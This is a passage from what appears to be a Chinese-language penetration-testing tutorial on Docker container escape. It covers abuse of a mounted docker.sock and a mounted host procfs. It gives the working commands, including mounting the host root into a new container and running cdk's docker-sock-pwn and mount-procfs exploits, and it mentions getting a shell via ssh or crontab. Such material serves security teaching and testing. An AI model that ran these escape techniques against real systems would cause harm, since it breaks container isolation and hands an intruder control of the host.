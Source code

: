 挂载目录（-v /:/mnt）

#### 挂载docker socket导致逃逸

Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

- unix:///var/run/docker.sock(默认)
- tcp://host:port
- fd://socketfd

简单来说就是如果docker客户端拥有了docker.sock就能与指定docker服务端交互，如果宿主机的docker.sock被挂载进了docker，那么攻击者就可以在docker里面使用docker客户端控制宿主机的docker，这个时候就可以按照上面的挂载宿主机目录来控制文件系统从而实现逃逸

```
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04
```

在容器内安装docker命令行客户端

```
apt-get update
apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common -y
curl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
add-apt-repository "deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/ $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce docker-ce-cli containerd.io -y
```

接着使用该客户端通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部

```
docker run -it -v /:/host ubuntu:18.04 /bin/bash
```

![image-20230505153804950](images/9.png)

接下来还是一样的用ssh或者crontab拿shell

或者wget一个cdk执行命令

```
./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"
```

#### 挂载procfs目录

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时(**Docker默认情况下不会为容器开启User Namespace**)。

```
docker run -itd -v /proc:/host/proc ubuntu:18.04
```

```
./cdk_linux_amd64 run mount-procfs /host/proc "touch /tmp/hack.txt"
```

![image-20230505155202818](images/10.png)
